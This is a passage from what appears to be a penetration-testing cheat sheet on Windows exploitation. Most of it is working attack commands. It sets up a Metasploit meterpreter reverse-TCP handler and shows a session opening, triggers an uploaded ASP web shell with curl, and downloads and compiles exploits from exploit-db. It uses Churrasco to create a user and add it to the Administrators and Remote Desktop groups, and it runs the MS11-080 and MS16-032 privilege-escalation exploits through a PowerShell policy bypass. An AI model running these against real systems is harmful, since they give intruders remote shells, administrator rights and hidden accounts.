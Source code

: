          msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j

         curl http://$ip/aspshell3.asp;.txt

         [*] Started reverse TCP handler on 1.2.3.4:443 
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700

	Without metasploit we can generate a shell and listen with netcat or metasploit multi handler.

	Use davtest to test for webdav

-   Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.

         pip install pyinstaller
         wget -O exploit.py http://www.exploit-db.com/download/31853  
         python pyinstaller.py --onefile exploit.py

-   Windows Server 2003 and IIS 6.0 privledge escalation using impersonation: 

      https://www.exploit-db.com/exploits/6705/
   
      https://github.com/Re4son/Churrasco
      
         c:\Inetpub>churrasco
         churrasco
         /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

         c:\Inetpub>churrasco -d "net user /add <username> <password>"
         c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
         c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

-   Windows MS11-080 - http://www.exploit-db.com/exploits/18176/  
    
          python pyinstaller.py --onefile ms11-080.py  
          mx11-080.exe -O XP
    
-   Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt.  Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:

      MS16-032 https://www.exploit-db.com/exploits/39719/
      
      `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"`
      
    
-   Powershell Priv Escalation Tools
    https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

-   Windows Run As - Switching users in linux is trival with the `SU` command.  However, an equivalent command does not exist in Windows.  Here are 3 ways to run a command as a different user in Windows.
